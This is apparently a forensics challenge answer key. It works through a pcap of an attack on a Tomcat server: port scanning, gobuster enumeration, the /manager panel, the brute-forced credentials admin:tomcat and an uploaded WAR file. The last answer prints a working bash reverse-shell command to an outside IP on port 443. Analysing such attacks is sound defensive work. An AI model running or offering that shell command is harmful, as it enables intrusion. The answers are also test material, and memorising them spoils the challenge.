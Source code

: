 ## Here are the Questions and Answers

### Q1
Given the suspicious activity detected on the web server, the pcap analysis shows a series of requests across various ports, suggesting a potential scanning behavior. Can you identify the source IP address responsible for initiating these requests on our server?

**Answer:** `14.0.0.120`

### Q2
Based on the identified IP address associated with the attacker, can you ascertain the city from which the attacker's activities originated?

**Answer:** `Guangzhou`

### Q3
From the pcap analysis, multiple open ports were detected as a result of the attacker's activity scan. Which of these ports provides access to the web server admin panel?

**Answer:** `8080`

### Q4
Following the discovery of open ports on our server, it appears that the attacker attempted to enumerate and uncover directories and files on our web server. Which tools can you identify from the analysis that assisted the attacker in this enumeration process?

**Answer:** `gobuster`

### Q5
Subsequent to their efforts to enumerate directories on our web server, the attacker made numerous requests trying to identify administrative interfaces. Which specific directory associated with the admin panel was the attacker able to uncover?

**Answer:** `/manager`

### Q6
Upon accessing the admin panel, the attacker made attempts to brute-force the login credentials. From the data, can you identify the correct username and password combination that the attacker successfully used for authorization?

**Answer:** `admin:tomcat`

### Q7
Once inside the admin panel, the attacker attempted to upload a file with the intent of establishing a reverse shell. Can you identify the name of this malicious file from the captured data?

**Answer:** `JXQOZY.war`

### Q8
Upon successfully establishing a reverse shell on our server, the attacker aimed to ensure persistence on the compromised machine. From the analysis, can you determine the specific command they are scheduled to run to maintain their presence?

**Answer:** `/bin/bash -c 'bash -i >& /dev/tcp/14.0.0.120/443 0>&1'`
